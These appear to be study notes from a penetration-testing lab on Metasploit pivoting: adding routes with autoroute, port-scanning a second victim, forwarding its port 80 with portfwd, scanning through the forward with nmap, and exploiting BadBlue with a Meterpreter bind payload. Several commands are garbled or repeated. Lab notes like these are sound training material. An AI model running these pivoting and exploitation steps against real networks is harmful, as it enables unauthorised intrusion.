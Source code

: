 - Identify the Network interfaces
    - `ipconfig`
- Add route to your current subnet to access other network available
    - `run autoroute -s 10.5.26.0/20`
        - With this we actually addedd route to our msfconsole, now we can access any device from this msfconsole
    - we can also list routes
        - `run autoroute -p`
            - Addiing route wont allow you to execute anythin other than metasloit modules,  so its not like we can do nmap scan on victim 2 just by adding route, but instead we can user modules like portscan etc
- Port scanning on other network IP within same subnet (we already have IP in this case)
    - `search portscan` > `use auxiliary/scanner/portscan/tcp` > `set RHOSTS 10.5.31.52` > `set PORTS 1-100` > `exploit`
        - We observe that we have port 80 open on victim 2, but we still cant access it directly (not by any way)
    - To perform a Nmap scan we will need to Forward port 80 on victim 2 to a port on our local host which is the kali linux instance.
- Port Forwarding
    - `portfwd add -l 1234 -p 80 -r 10.5.31.52`
        - Now we can do nmap scan by specifying port 1234 and kali linux ip/localhost which will eventually do nmap scan for port 80 of victim 2 machine
- Scanning port 80 on victim2 by using port 1234 on our kali
    - `db_nmap -p 1234 -sS -sV localhost`
- Further we can exploit if service running is vulnerable
    - `use windows/http/badblue_passthru` > `set payload windows/meterpreter/bind_tcp` > `set payload windows/meterpreter/bind_tcp` > `set payload windows/meterpreter/bind_tcp` > `set LPORT 4433` > `exploit`

